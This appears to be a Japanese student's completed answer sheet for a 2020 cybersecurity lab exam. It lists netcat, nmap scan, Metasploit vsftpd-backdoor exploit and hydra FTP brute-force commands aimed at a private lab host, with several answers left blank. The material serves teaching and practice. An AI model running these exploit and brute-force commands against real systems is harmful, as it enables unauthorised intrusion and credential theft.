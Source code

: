 # CyberSecurity I Exam 2020 回答用紙

## 問1 [netcat]

### サーバー側コマンド

```sh
nc 192.168.33.5 5555

```
### クライアント側コマンド

```sh
nc -lvp 5555

```

## 問2 [Password Crack]

```md
test:test

```

## 問3 [Port Scanner]

### 1. ping scan

```sh
nmap -sP 192.168.33.0/24

```
### 2. version scan

```sh
 nmap -sV -O -p- 192.168.33.5

```

## 問4 [Metasploit Framework]

```sh
1.msfconsole
2.search vsftpd
3.use exploit/unix/ftp/vsftpd_234_backdoor
4.set RHOST 192.168.33.5
5.show options
6.exploit

```

## 問5 [Online Password Cracker]


### 1. コマンド

```sh
 hydra -L user.list -P passwd.list -t 8 192.168.33.5 ftp

```

### 2. 解析結果

```sh
# ここに回答を記述

```

## 問6 [Packet Sniffer]

```sh
wireshark

```

## 問7 [不正アクセス]

### 1. rootアクセスの件数

```md
<!--  ここに回答を記述 -->

```

### 2. 不正アクセスユーザーのTOP3

```md
<!--  ここに回答を記述 -->

```
### 3. IPアドレスのアクセス件数と発信国

```md
<!--  ここに回答を記述 -->

```

## 問8 [自己評価]

```md
70点

```

## 問9 [講義の感想]

```md
vagrant (init up destory halt)
nc
nmap
msfconsole
john
hydra

初めてやる頃は、自分ができるか心配でしたがどんどん回数を重ねていく
うちにできることが増えていって自信がつきました。

```
